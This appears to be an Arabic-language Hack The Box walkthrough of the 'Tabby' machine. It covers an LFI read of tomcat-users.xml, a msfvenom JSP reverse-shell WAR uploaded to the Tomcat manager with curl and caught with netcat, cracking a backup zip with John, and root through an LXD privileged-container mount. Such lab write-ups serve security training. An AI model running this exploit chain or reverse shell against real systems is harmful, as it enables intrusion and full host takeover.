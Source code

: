 Created by fasto

My profile : https://www.hackthebox.eu/home/users/profile/

## Sammmry :
![Desktop View](/img/tabby/bg.png)


```
linux شغالة على easy machine عبارة عن Tabby
وبعد ذلك نرفع شال tomcatتمكننا من سحب كلمة سر lfi بالفحص المبدئي نجد
الذي user نقوم بكسره ثم نستخدم كلمة السر للحصول على zip fileونبحث لنجد
ootللحصول على alpine-builderنستخدم admو lxd بدوره ينتمي الى
```

- Sammmry :
- 1 enumeration
   - 1.1 Nmap
   - 1.2 Port
- 2 lfi
   - 2.1 shell
   - 2.2 Backup.zip
   - 2.3 zip crack
   - 2.4 User.txt
- 3 privilege escalation


## 1 enumeration

### 1.1 Nmap

```
nmap نبدا بفحص البورتات باستخدام
```

![Desktop View](/img/tabby/1.png)

#### نجد بورت 8080 و 80 مفتوحين  

80 : httpd

8080 :tomcat


### 1.2 Port

```
codee source اثناء تصفح بورت 80 نجد دومين في 
```
![Desktop View](/img/tabby/2.png)

```
عند فتح /etc/hostsفي domain نقوم باضافة
LFIوفحصه نجد انه مصاب بثغرة url
```
![Desktop View](/img/tabby/3.png)

```
http://10.10.10.194:8080 بعد فتح
/usr/shareتحت tomcat نكتشف ان
```
[http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html](http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html)

```
: ب password نسحب
http://10.10.10.194/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-
users.xml
```

## 2 lfi

![Desktop View](/img/tabby/4.png)
### 2.1 shell

#### : حصلنا على كلمة المرور نقوم ب الدخول الى السيرفر

```
shellنتبع الشرح التالي لرفع
https://gist.github.com/pete911/
.warبصيغة msfvenom ب shell نقوم بانشاء
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.
LPORT=5555 -f war > shell.war

![Desktop View](/img/tabby/5.png)

```
الخاص بنا shell نرفع
```

```
curl --user 'tomcat':'$3cureP4s5w0rd123!' --upload-file shell.war
'http://10.10.10.194:8080/manager/text/deploy?path=/ts'
https://phantominfosec.wordpress.com/2020/07/08/htb-tabby-
walkthrough/
```



```
nc –lnvp 5555 نشغل
shell ثم نتصفح
```
[http://10.10.10.194:8080/ts](http://10.10.10.194:8080/ts)


![Desktop View](/img/tabby/7.png)
#### الان نحصل على اتصال
![Desktop View](/img/tabby/8.png)
### 2.2 Backup.zip

####  /var/www/html/files بعد البحث داخل السيرفر نجد في مسار    


ملف

16162020_backup.zip

```
نقوم بنقله الى جهازنا
ثم فك التشفير base64 قمت بتشفيره ب
```
Base 64 –w0 16162020_backup.zip


![Desktop View](/img/tabby/9.png)

base64 –d encoded >1.zip

### 2.3 zip crack

```
نجد انه محمي بكلمة سر unzipعند محاولة فك
```

![Desktop View](/img/tabby/11.png)

```
johnنقوم بكسرها باستخدام
```
zip2john 1.zip > out.txt
john out.txt -wordlist=rockyou.txt

```
user ashنقوم بتجريبها على admin@itنجد كلمة السر
```

![Desktop View](/img/tabby/12.png)


![Desktop View](/img/tabby/13.png)
### 2.4 User.txt

```
ash تمكنا بالدخول ب
```
![Desktop View](/img/tabby/14.png)
## 3 privilege escalation

```
عند البحث في lxdو adm ينتمي الى ash نجد ان id عند كتابة
privilege escalationجوجل نجد مقال يتحدث عن
https://www.hackingarticles.in/lxd-privilege-
escalation
```
```
alpine-builderنحمل
```
```
https://github.com/saghul/lxd-
alpine-builder.git
```
![Desktop View](/img/tabby/15.png)

```
lxc image import ./alpine-v3.12-x86_64-20201030_1631.tar.gz --alias fasto
lxc image list
```
![Desktop View](/img/tabby/r1.png)

lxd init


![Desktop View](/img/tabby/r2.png)
```
ash@tabby:~$ lxc init fasto groot -c security.privileged=true
ash@tabby:~$ lxc config device add groot mydevice disk
source=/ path=/mnt/root recursive=true
```

```
ash@tabby:~$ lxc start groot
ash@tabby:~$ lxc exec groot /bin/sh
```


![Desktop View](/img/tabby/r3.png)
```
/mnt/root/root نذهب الى root حصلنا على
flagنجد
```
![Desktop View](/img/tabby/r4.png)

